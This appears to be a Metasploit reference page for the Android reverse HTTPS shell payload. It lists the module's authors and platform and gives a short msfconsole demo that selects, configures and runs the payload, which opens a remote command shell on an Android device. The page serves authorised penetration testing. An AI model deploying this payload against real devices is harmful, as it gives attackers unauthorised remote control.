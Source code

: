 ## Command Shell, Dalvik Reverse HTTPS Stager

Spawn a piped command shell (sh). Tunnel communication over 
HTTPS


## Module Name
payload/android/shell/reverse_https

## Authors
* mihi
* egypt
* anwarelmakrahy
* OJ Reeves





## Platforms
* android

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/android/shell/reverse_https
msf payload(reverse_https) > show targets
   ... a list of targets ...
msf payload(reverse_https) > set TARGET <target-id>
msf payload(reverse_https) > show options
   ... show and set options ...
msf payload(reverse_https) > run
```
    
    